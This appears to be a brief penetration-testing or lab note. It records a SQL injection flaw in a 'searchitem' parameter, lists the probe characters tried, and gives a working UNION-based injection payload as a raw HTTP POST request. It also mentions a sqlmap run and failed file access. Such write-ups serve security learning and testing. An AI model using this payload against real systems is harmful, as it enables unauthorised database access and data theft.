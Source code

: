 - So we have sql injection in `searchitem` parameter
![[Pasted image 20240819143605.png]]
- it appears after test of the next characters
```
'";--#()=-|*/\%_&<>
```
- Here is workable UNION based sql injection
```
POST / HTTP/1.1

searchitem=%%'+union+select+null,'Hello_World',null,null--+-
```
- sqlmap run
![[Pasted image 20240819151024.png]]

- It seems that read and write I cannot because I don't have `dba`